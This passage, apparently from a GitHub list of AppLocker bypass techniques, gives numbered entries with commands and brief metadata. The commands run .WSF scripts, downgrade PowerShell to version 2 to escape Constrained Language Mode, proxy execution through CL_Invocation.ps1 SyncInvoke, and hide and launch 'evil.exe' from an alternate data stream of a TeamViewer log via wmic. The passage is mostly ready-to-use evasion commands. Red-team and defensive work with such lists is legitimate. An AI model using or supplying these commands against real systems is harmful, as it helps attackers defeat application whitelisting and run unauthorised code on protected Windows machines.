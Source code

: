 * Links:
  * https://twitter.com/Sudhanshu_C/status/943011972261412864

--------------------------------------------------------------------------
 41. .WSF files


script.wsf


* Requires admin: No
* Windows binary: No
* Bypasses AppLocker Default rules: ?

Notes:
.WSF files are supposed to not be blocked by AppLocker

* Links:

--------------------------------------------------------------------------
 42. PowerShell version 2


Powershell -version 2


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:
Bypasses Constrained language mode

* Links:

--------------------------------------------------------------------------
 43. CL_Invocation.ps1


. C:\Windows\diagnostics\system\AERO\CL_Invocation.ps1

SyncInvoke <executable> [args]


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: Yes, as long as PowerShell version 2 is present

Notes:
Requires PowerShell version 2

* Links:
  * https://twitter.com/bohops/status/948548812561436672

--------------------------------------------------------------------------
 44. Incorrect permissions on files in folders


type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"

wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'

